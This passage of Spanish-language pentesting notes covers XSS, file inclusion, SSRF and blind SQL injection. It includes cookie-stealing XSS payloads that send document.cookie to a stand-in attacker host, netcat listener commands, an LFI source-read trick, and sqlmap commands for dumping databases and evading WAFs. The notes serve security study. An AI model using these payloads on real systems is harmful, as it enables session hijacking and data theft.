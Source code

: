 - **Cross-site scripting:** Inyección de código Javascript malicioso en una página:
	- Un payload bastante silencioso (no hace ninguna redirección) sería usando AJAX: `<script>let request = new XMLHttpRequest();request.open('GET', 'atackerSite?'+document.cookie, true);request.send();</script>`
	- Otro payload: `<script>new Image().src = 'atackerSite/flag.php?'+document.cookie;</script>`
	- Como apunte final, para escuchar las peticiones hay varias opciones:
		- **`nc`:** Para esto pues recomiendo hacer : `while [ 1 -eq 1 ]; do sudo nc -lnvp 80; done` porque después de cada petición se cierra
		- Con el comando `sudo python3 -m http.server 80` podeis montar un servidor web en la raíz en el directorio donde estéis
		- Otra opción es usar https://hookbin.com/. Podreis crear endpoints y monitorizar las peticiones (Es el más simple de todos vaya)
- **Inclusión de archivos remotos:** Se utiliza en la url el parámetro `page` para ver de que pagina se hace el include y que se cargue un archivo de otro sitio. Se puede ejecutar un `webshell` para controlar y ver todo lo que hay en el server
- **Ataques de inclusión de ficheros locales:** Incluir dentro de la pagina web un fichero local, sitios de plantillas o descargas expuestos. Por ejemplo, cuando se pasa por url el fichero que se quiere utilizar para algo. Si no se acota a lo que puede acceder el servidor web, se puede acceder a archivos del propio Linux o Windows donde esta alojada la pagina. En servidores web `PHP` con esta vulnerabilidad, se puede utilizar `php://filter/convert.base64-encode/resource=PATH_TO_FILE` para poder extraer ficheros con la extensión `php` sin que se ejecuten. También si hay logs del servidor web se podrían llegar a aprovechar para obtener RCE manipulando nuestras peticiones
- **Falsificación de solicitudes del lado del servidor:** La falsificación de solicitudes del lado del servidor (también conocida como SSRF en inglés) es una vulnerabilidad de seguridad web que permite a un atacante inducir a la aplicación del lado del servidor a realizar solicitudes HTTP a un dominio arbitrario de su elección. En los ejemplos típicos de SSRF, el atacante puede hacer que el servidor establezca una conexión con él mismo o con otros servicios basados ​​en web dentro de la infraestructura de la organización, o con sistemas externos de terceros. Los dominios como `localtest.me` son realmente útiles porque resuelven todos sus subdominios a `127.0.0.1` y pueden ayudar a saltarse filtros
- **Sql injection:** Existe un tipo de sql injection que es a ciegas. Es decir, los errores de la base de datos o la info no sale por pantalla y es necesario usar logica binaria (true / false) y poner que si un usuario existe, esperar x segundos. `sqlmap` automatiza todo esto (Algunas cheat sheets: [sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list) y [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)):
```console
Anthares101@kali:~$ sqlmap -u URL --headers "Cookie: ..."
# --dump-all Dumpea todas las tablas de todas las bases de datos
# En vez de -u a mi me gusta utilizar la opción -r para especificar el objetivo

Anthares101@kali:~$ sqlmap --batch --dbs -r post_request.txt
# Con --dbs sqlmap saca todas las bases de datos del sistema
# Con la opción -r se puede especificar un ejemplo de POST a la página y que sqlmap haga lo suyo
# La opción --batch hace que no tengamos que interactuar en el proceso (Selecciona todo por defecto)

Anthares101@kali:~$ sqlmap --current-db --batch -r post_request.txt
# Saca el nombre de la base de datos actual

Anthares101@kali:~$ sqlmap -D DB --tables --batch -r post_request.txt
# Extrae todas las tablas de una determinada base de datos

Anthares101@kali:~$ sqlmap -D DB -T TABLA --columns -r post_request.txt
# Extrae información de las columnas de una determinada tabla

Anthares101@kali:~$ sqlmap -D DB -T TABLA --dump --batch -r post_request.txt
# Hace una copia de toda la información de una determinada tabla de una determinada base de datos

Anthares101@kali:~$ sqlmap -D DB --sql-query "select id,password,...,... from TABLA where COLUMNA like PATRÓN" -r post_request.txt
# Permite extraer los resultados de una query especifica a una tabla conocida

# El parámetro --tamper=space2comment permite intentar saltarse ciertos firewalls (WAF)
```